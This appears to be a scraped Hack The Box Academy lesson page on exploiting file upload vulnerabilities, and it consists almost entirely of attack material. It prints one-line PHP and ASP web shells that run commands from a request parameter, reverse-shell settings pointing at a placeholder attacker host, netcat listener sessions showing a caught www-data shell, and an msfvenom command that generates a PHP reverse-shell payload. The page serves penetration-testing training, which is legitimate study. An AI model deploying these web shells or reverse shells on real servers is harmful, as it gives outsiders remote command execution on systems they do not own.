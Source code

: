 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/136/section/1261
// Platform Version: V1
// Module ID: 136
// Module Name: File Upload Attacks
// Module Difficulty: Medium
// Section ID: 1261
// Section Title: Upload Exploitation
// Page Title: Hack The Box - Academy
// Page Number: 3
-->

# Upload Exploitation

**Module Name:** File Upload Attacks **Page Number:** 3

#### 

#### FILE UPLOAD ATTACKS

# Upload Exploitation

## Web Shells

## Writing Custom Web Shell

``` php
<?php system($_REQUEST['cmd']); ?>
```

``` asp
<% eval request('cmd') %>
```

## Reverse Shell

``` php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Generating Custom Reverse Shell Scripts

``` shell-session
ndefstathiou@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 

# 

#### Questions

####